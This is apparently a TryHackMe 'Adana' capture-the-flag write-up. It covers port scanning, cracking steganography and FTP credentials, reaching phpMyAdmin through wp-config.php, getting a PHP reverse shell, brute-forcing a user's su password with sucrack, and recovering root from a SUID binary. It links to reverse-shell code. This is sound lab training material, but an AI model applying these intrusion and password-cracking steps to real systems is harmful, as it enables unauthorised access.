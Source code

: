 # Different CTF

https://tryhackme.com/room/adana // room
https://tryhackme.com/p/hakanbey01 // room owner

### Task 1 Basic scan
can be done with nmap and gobuster

###### Nmap scan

`$ nmap -vv -p- IPADDR`

    Discovered open port 80/tcp on 10.10.228.110
    Discovered open port 21/tcp on 10.10.228.110
    PORT   STATE SERVICE REASON
    21/tcp open  ftp     syn-ack
    80/tcp open  http    syn-ack


###### gobuster result

`$ gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t 30`

    /wp-content           (Status: 301) [Size: 319] [--> http://10.10.228.110/wp-content/]
    /a[REDACTED]       (Status: 301) [Size: 322] [--> http://10.10.228.110/a[REDACTED]/]
    /wp-includes          (Status: 301) [Size: 320] [--> http://10.10.228.110/wp-includes/]  
    /javascript           (Status: 301) [Size: 319] [--> http://10.10.228.110/javascript/]   
    /wp-admin             (Status: 301) [Size: 317] [--> http://10.10.228.110/wp-admin/]     
    /phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.228.110/phpmyadmin/] 


### Task 2 Localhost
`http://IPADDR/a[REDACTED]`

[![/a](https://i.imgur.com/KGz41yt.png "/a")](https://i.imgur.com/KGz41yt.png "/a")

now we have a image and wordlist looks like a job for stegcracker

password was at the eof took some time to crack

`$ stegcracker austrailian-bulldog-ant.jpg wordlist.txt`

    Successfully cracked file with password: [REDACTED]
    Tried 49--- passwords
    Your file has been written to: austrailian-bulldog-ant.jpg.out
    [REDACTED]

`$ cat austrailian-bulldog-ant.jpg.out `

    RlRQL[REDACTED]nRwClBBU1M6IDEyM2FkYW5hY3JhY2s=

`$ cat austrailian-bulldog-ant.jpg.out  | base64 -d`

    FTP-LOGIN
    USER: hakanftp
    PASS: 123[REDACTED]

`$ ftp IPADDR`

    ftp> ls -la
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxrwxrwx    8 1001     1001         4096 Jan 15 12:26 .
    drwxrwxrwx    8 1001     1001         4096 Jan 15 12:26 ..
    -rw-------    1 1001     1001           88 Jan 13 11:06 .bash_history
    drwx------    2 1001     1001         4096 Jan 11 10:29 .cache
    drwx------    3 1001     1001         4096 Jan 11 10:29 .gnupg
    -rw-r--r--    1 1001     1001          554 Jan 10 22:26 .htaccess
    drwxr-xr-x    2 0        0            4096 Jan 14 16:49 announcements
    -rw-r--r--    1 1001     1001          405 Feb 06  2020 index.php
    -rw-r--r--    1 1001     1001        19915 Feb 12  2020 license.txt
    -rw-r--r--    1 1001     1001         7278 Jun 26  2020 readme.html
    -rw-r--r--    1 1001     1001         7101 Jul 28  2020 wp-activate.php
    drwxr-xr-x    9 1001     1001         4096 Dec 08 22:13 wp-admin
    -rw-r--r--    1 1001     1001          351 Feb 06  2020 wp-blog-header.php
    -rw-r--r--    1 1001     1001         2328 Oct 08  2020 wp-comments-post.php
    -rw-r--r--    1 0        0            3194 Jan 11 09:55 wp-config.php
    drwxr-xr-x    4 1001     1001         4096 Dec 08 22:13 wp-content
    -rw-r--r--    1 1001     1001         3939 Jul 30  2020 wp-cron.php
    drwxr-xr-x   25 1001     1001        12288 Dec 08 22:13 wp-includes
    -rw-r--r--    1 1001     1001         2496 Feb 06  2020 wp-links-opml.php
    -rw-r--r--    1 1001     1001         3300 Feb 06  2020 wp-load.php
    -rw-r--r--    1 1001     1001        49831 Nov 09 10:53 wp-login.php
    -rw-r--r--    1 1001     1001         8509 Apr 14  2020 wp-mail.php
    -rw-r--r--    1 1001     1001        20975 Nov 12 14:43 wp-settings.php
    -rw-r--r--    1 1001     1001        31337 Sep 30  2020 wp-signup.php
    -rw-r--r--    1 1001     1001         4747 Oct 08  2020 wp-trackback.php
    -rw-r--r--    1 1001     1001         3236 Jun 08  2020 xmlrpc.php
    226 Directory send OK.
    ftp> 

[Click to download php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php "Click to download php reverse shell")

[i used my own php shell click to go github page](https://github.com/rootkral4/phpreverseshell "i used my own php shell click to go github page")

i tried to upload php shell but server responded with 404
so download and read wp-config.php

` $ head -n 40 wp-config.php`

    define( 'DB_NAME', 'phpmyadmin1' );
    
    /** MySQL database username */
    define( 'DB_USER', 'phpmyadmin' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', '[REDACTED]' );
    
    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );
    
    /** Database Charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8mb4' );
    
    /** The Database Collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' );


`http://IPADDR/phpmyadmin`

logged in via creds in wp-config.php

[![](https://i.imgur.com/5Wjx7Zr.png)](https://i.imgur.com/5Wjx7Zr.png)

there is 2 phpmyadmin db
phpmyadmin1 -> wp_options -> site_url was a subdomain

`$ nano /etc/hosts` //add subdomain to hosts

`http://[REDACTED].adana.thm/`

this subdomain was same as main website
when i move to /phpshell.php, yes! php shell is here
got reverse shell finally

    remote@machine$ cd ..
    remote@machine$ cd html
    remote@machine$ cat wwe3bbfla4g.txt
    THM{343a7[REDACTED]c346edff}

then i searched for suid files nad found this one but others has no execute perm

    -rwxr-x--- 1 root hakanbey 238080 Nov  5  2017 /usr/bin/find

In this case, we know that we need to switch to the hakanbey user. Due to the similarity of stego and ftp passwords, the password of the hakanbey user can also be in this format.
123adana is prefix for passwords, created a wordlist(used wordlist.txt on ftp) with this prefix
after that i sent sucrack to remote machine 

`remote@machine$ dpkg -x sucrack_1.2.3-5+b1_amd64.deb sucrack`

`remote@machine$ sucrack -w 100 -b 500 -u hakanbey wordlist.txt`

after short period of time sucrack was succed

`remote@machine$ su hakanbey`

    THM{8ba9d7[REDACTED]d00e67127} //user flag

`remote@machine$ find / -perm -4000 -type f 2>/dev/null` // scanning for suid again

    /usr/bin/binary

`remote@machine$ ltrace ./binary`

    strcat("***", "****")                                                                                    = "******"
    strcat("******", "**")                                                                                  = "********"
    strcat("*********", "***")                                                                               = "************"
    strcat("************", "**")                                                                             = "*************"
    printf("I think you should enter the cor"...)                                                            = 52
    __isoc99_scanf(0x561c5b518edd, 0x7fff99056ac0, 0, 0I think you should enter the correct string here ==>^C <no return ...>
    --- SIGINT (Interrupt) ---
    +++ killed by SIGINT +++

got string

`remote@machine$ ./binary`

    I think you should enter the correct string here ==>w*************
    Hint! : Hexeditor 00000020 ==> ???? ==> /home/hakanbey/root.jpg (CyberChef)
    
    Copy /root/root.jpg ==> /home/hakanbey/root.jpg

    00000000  FF D8 FF E0  00 10 4A 46   49 46 00 01  01 01 00 60                                                                                             ......JFIF.....`
    00000010  00 60 00 00  FF E1 00 78   45 78 69 66  00 00 4D 4D                                                                                             .`.....xExif..MM
    00000020  ** ** ** **  ** ** ** **   ** ** ** **  ** ** ** **                        // hint points this line                                                                     ...=y._..m..i..u
    00000030  00 00 00 56  03 01 00 05   00 00 00 01  00 00 00 68                                                                                             ...V...........h
    00000040  03 03 00 01  00 00 00 01   00 00 00 00  51 10 00 01                                                                                             ............Q...
    00000050  00 00 00 01  01 00 00 00   51 11 00 04  00 00 00 01                                                                                             ........Q.......
    00000060  00 00 0E C4  51 12 00 04   00 00 00 01  00 00 0E C4                                                                                             ....Q...........
    00000070  00 00 00 00  41 64 6F 62   65 20 49 6D  61 67 65 52                                                                                             ....Adobe ImageR
    00000080  65 61 64 79  00 00 00 01   86 A0 00 00  B1 8F FF DB                                                                                             eady............
    00000090  00 43 00 02  01 01 02 01   01 02 02 02  02 02 02 02                                                                                             .C..............
    000000A0  02 03 05 03  03 03 03 03   06 04 04 03  05 07 06 07                                                                                             ................

`https://cyberchef.com`

From HEX > To Base85
    root:[REDACTED]

`remote@machine$ su root`

    THM{c5a9d3[REDACTED]4466a6c}
